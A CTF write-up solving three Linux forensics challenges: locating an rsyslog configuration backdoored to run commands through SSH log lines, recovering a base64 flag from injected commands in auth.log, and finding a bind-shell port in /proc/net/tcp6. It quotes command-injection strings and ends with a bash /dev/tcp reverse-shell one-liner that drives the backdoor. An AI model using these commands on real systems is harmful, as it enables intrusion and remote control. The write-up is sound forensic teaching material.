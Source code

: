 ```yaml
---
layout: post
title:  "5Charlie CTF - Aperture"
date:   2020-04-25 01:31:48 -0500
categories: write-up
tags: [ctf, write-up, forensics, linux]
---
```


## Aperture 1

## Aperture 1 - Challenge

To access these challenges, ssh to wheatley@analysis.5charlie.com

What is the full path to the configuration file that has been backdoored to allow command execution through OpenSSH?

**Attachments:** `id_wheatly` - SSH Key

### Aperture 1 - Solution

Getting our bearings on the system we very quickly find that this system is a very minimal isolated Docker container.
Let's try to figure out what may have been played with by figuring out the most recently modified files

We'll specifically be using the `-t (sort by modifcation time)` flag and `-r (reverse sorting)` flag on our `ls` so that it gives us the most likely files closest to our prompt at the bottom.

{% highlight bash %}
cd /
ls -latr
{% endhighlight %}

``` text
total 80
drwxr-xr-x   2 root root 4096 Apr 24  2018 home
drwxr-xr-x   2 root root 4096 Apr 24  2018 boot
drwxr-xr-x   1 root root 4096 Mar 11 21:03 usr
drwxr-xr-x   2 root root 4096 Mar 11 21:03 srv
drwxr-xr-x   2 root root 4096 Mar 11 21:03 opt
drwxr-xr-x   2 root root 4096 Mar 11 21:03 mnt
drwxr-xr-x   2 root root 4096 Mar 11 21:03 media
drwxr-xr-x   2 root root 4096 Mar 11 21:03 lib64
drwxr-xr-x   1 root root 4096 Mar 11 21:05 var
drwx------   2 root root 4096 Mar 11 21:05 root
dr-xr-xr-x  13 root root    0 Apr 10 19:45 sys
drwxr-xr-x   1 root root 4096 Apr 13 04:57 lib
drwxr-xr-x   1 root root 4096 Apr 13 04:57 sbin
drwxr-xr-x   1 root root 4096 Apr 13 04:58 bin
-rwxr-xr-x   1 root root    0 Apr 25 06:36 .dockerenv
drwxr-xr-x   1 root root 4096 Apr 25 06:36 ..
drwxr-xr-x   1 root root 4096 Apr 25 06:36 .
dr-xr-xr-x 142 root root    0 Apr 25 06:36 proc
drwxr-xr-x   1 root root 4096 Apr 25 06:36 run
drwxr-xr-x   5 root root  400 Apr 25 06:36 dev
drwxr-xr-x   1 root root 4096 Apr 25 06:36 etc
drwxrwxrwt   1 root root 4096 Apr 25 06:36 tmp
wheatley@e2a54f310336:/$
```

There's nothing of interest in `/tmp` so next we dig into `/etc` which has plenty of configuration files that could be tweaked to cause security problems.

Let's continue down.

{% highlight bash %}
cd /
ls -latr
{% endhighlight %}

``` text
...[truncated]
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc4.d
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc3.d
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc2.d
-rw-r--r-- 1 root root    1252 Apr 13 04:57 passwd-
-rw-r--r-- 1 root root   13548 Apr 13 04:57 ld.so.cache
-rw-r--r-- 1 root root      22 Apr 13 04:58 subuid
-rw-r--r-- 1 root root      22 Apr 13 04:58 subgid
-rw-r----- 1 root shadow   691 Apr 13 04:58 shadow
-rw-r--r-- 1 root root    1297 Apr 13 04:58 passwd
-rw-r----- 1 root shadow   499 Apr 13 04:58 gshadow
-rw-r--r-- 1 root root     596 Apr 13 04:58 group
-rw-r--r-- 1 root root      36 Apr 13 04:58 ld.so.preload
drwxr-xr-x 1 root root    4096 Apr 13 04:58 ssh
drwxr-xr-x 1 root root    4096 Apr 13 04:58 rsyslog.d
lrwxrwxrwx 1 root root      12 Apr 25 06:36 mtab -> /proc/mounts
drwxr-xr-x 1 root root    4096 Apr 25 06:36 ..
-rw-r--r-- 1 root root     174 Apr 25 06:36 hosts
-rw-r--r-- 1 root root      13 Apr 25 06:36 hostname
-rw-r--r-- 1 root root      97 Apr 25 06:36 resolv.conf
-rw-r--r-- 1 root root    1358 Apr 25 06:36 rsyslog.conf
-r--r----- 1 root root     755 Apr 25 06:36 sudoers
drwxr-xr-x 1 root root    4096 Apr 25 06:36 .
wheatley@e2a54f310336:/etc$
```

Attempting to check our sudo privileges with `sudo -l` gives us a password prompt: no dice.

`hosts`, `hostname`, `resolv.conf`, and `mtab` were modified by Docker coming up. We can look, but it's nothing relevant.

`rsyslog.conf` and `rsyslog.d` were recently modified; that's a bit strange. Looking up rsyslog backdoors gives us Jacob Lell's post as the first result: <https://www.jakoblell.com/blog/2014/05/07/hacking-contest-backdooring-rsyslogd/>

In our own `/etc/rsyslog.d/rsyslog-README.conf` we can immediately see `auth.* ^/bin/atg` on line 77: an exact match to the blog post.

**Flag:** `/etc/rsyslog.d/rsyslog-README.conf`

## Aperture 2

### Aperture 2 - Challenge

What is the flag sent to the backdoored service?

### Aperture 2 - Solution

The backdoor commands are logged in `/var/log/auth.log` because it operates on the same port as SSH.

We can see that (if you tested connecting yourself) `auth.log` logs the attempts as `Bad protocol version identification <cmd>`.

To find the flag sent to the service historically, we can grep for that.

{% highlight bash %}
cat /var/log/auth.log | grep 'Bad proto'
{% endhighlight %}

``` text
Apr 13 04:33:58 5985561554b6 sshd[632]: Bad protocol version identification '';echo ZmxhZ3thbHdheXNfY2hlY2tfeW91cl9sb2dzfQo=;'' from 172.19.0.2 port 46120
Apr 13 04:34:37 5985561554b6 sshd[878]: Bad protocol version identification '';touch /tmp/owned;'' from 172.19.0.2 port 46122
wheatley@e2a54f310336:/etc$
```

We see a base64 encoded string, which, when decoded, gives us our flag.

**Flag:** `flag{always_check_your_logs}`

## Aperture 3

### Aperture 3 - Challenge

What port on this host is hosting a malicious bind shell?

### Aperture 3 - Solution

Since this host doesn't have anything like `netstat` or `ss`, we'll need to examine the `/proc` directory to determine open ports.

Nothing of interest in `/proc/net/tcp` or `/proc/net/udp`.

But if we look at `/proc/net/tcp6` we notice can see that there is a port bound to the wildcard (`::` aka the repeating zeros on index 1) with a port of hexidecimal `19B7`.

``` text
wheatley@09f81ab696ac:/tmp$ cat /proc/net/tcp6
  sl  local_address                         remote_address                        st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode
   0: 00000000000000000000000000000000:0016 00000000000000000000000000000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 2142157 1 ffff888153b1cc80 100 0 0 10 0
   1: 00000000000000000000000000000000:19B7 00000000000000000000000000000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 2142057 1 ffff888153b1ee80 100 0 0 10 0
```

Converting that port to decimal, we have our flag.

``` text
➜  ~ python3
Python 3.6.9 (default, Apr 18 2020, 01:56:04)
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x19B7
6583
```

**Flag:** `6583`

## Additional Notes

I have a bad habit of losing focus in CTFs a bit and playing around with the environment. Here is a line to leverage the provided backdoor as a shell instead of single-command.

{% highlight bash %}
nc -nvlp 1234 &
echo "';bash -i >& /dev/tcp/127.0.0.1/1234 0>&1;'"|nc 127.0.0.1
fg
{% endhighlight %}
